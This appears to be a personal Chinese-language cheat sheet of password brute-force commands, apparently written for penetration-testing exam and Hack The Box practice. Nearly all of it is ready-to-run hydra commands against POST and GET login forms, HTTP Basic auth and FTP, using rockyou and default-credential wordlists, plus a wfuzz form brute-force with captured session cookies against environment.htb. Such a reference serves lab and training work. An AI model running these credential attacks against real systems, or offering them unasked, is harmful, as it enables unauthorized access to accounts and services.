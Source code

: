 ## 往事回忆：命令？这辈子都记不住

注意hydra分为[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)和[ory-hydra](https://github.com/ory/hydra)，平常用的是thc-hydra，是没有header选项的，遇到需要填充Cookie的时候，往往傻眼了。

## POST表单爆破

```
hydra -vV -e ns -f -l '1@qq.com' -P /usr/share/wordlists/rockyou.txt 10.10.11.67 -t 6 http-post-form "/login:_token=ytfLB0KL9egXCleZSND2DKcW3qSX8q0sp8mACkvb&email=^USER^&password=^PASS^&remember=False:Invalid credentials"
```

## GET表单爆破

```
hydra -L users.txt -P passwords.txt example.com http-get-form "/login.php:username=^USER^&password=^PASS^:Invalid login"
```

## Basic认证爆破

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.7.35 http-get /protected/
```

## FTP弱口令爆破

考试遇到ftp服务直接开炮！

```
# 使用 "用户名:密码" 组合文件（而不是单独的 -L 用户名单和 -P 密码字典）爆破。
hydra -v -t 6 -C /usr/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.56.110
```



# Wfuzz

wfuzz和fuff工具一样，可用于web模糊匹配。平时除了用来子域名爆破和寻找Get参数，还可以做表单爆破。但是这个工具如果使用大字典很吃内存，虚拟机建议使用8G，否则系统很卡，而且程序会自动闪退。

## POST表单爆破

```
wfuzz -c --hh=466 -w /usr/share/wordlists/rockyou.txt -d "_token=vs4deAMi2VdTvy30gY7KjqtjTGsFk5evyirkhKKH&email=1%40q.com&password=FUZZ&remember=False" -H "Cookie: XSRF-TOKEN=eyJpdiI6IlVRVmM1Nk80M0RudDNnVTB1Q0RFeXc9PSIsInZhbHVlIjoiVVNsMnFSZ1hGdkY2TzQxNC83UHp6QmlxdGJ6bWNuWlBNSXIyaVUvTm5sMFV5OHFjMU1vRW0vSmZQalBPNXVRU1lpT3pVbVVxWHFvMzVVcVQ3RjRQNkEzaGhFN0Z6T1JhclA1QUtlS001ZUdjWndEaCsvdy93cTRReEE2cFpteFMiLCJtYWMiOiI5ZTY5YjgxMmM3Y2Y2MjI0NmUwMzU1OWYxYjVlOTExNjAzNGZkMWM4ZDI5NGE2NGMxMjY2MDU1M2Q4OTIwMWU3IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InZFYzNlajBLOStpVmVVS1VUTXpneVE9PSIsInZhbHVlIjoiTzVEWG9Ydm9yVmhiSGR5U0FtZG0reUdBNnNuekMyUk1xMXJ0ZVhRcUF3NlZVRkdlTnJuVWxTNngrNGVtUzQwaVE3Zlc3ZDBWb3FRVHNzWmRnMVhma0JZL1lxVTBzMHFxb0lFWFoyUFpoSkVFZmlDZVVVYW5iT3dRYnEzTkliNFgiLCJtYWMiOiJlNTlmNDZhMTQ5NjMyMWE0YmE0ZTQzY2E3YTExYTE0Y2UyOTNjMzM1ZGI2NDU4N2JmMmQwMDYwY2QyZGU2MTZlIiwidGFnIjoiIn0%3D" "http://environment.htb/login"
```

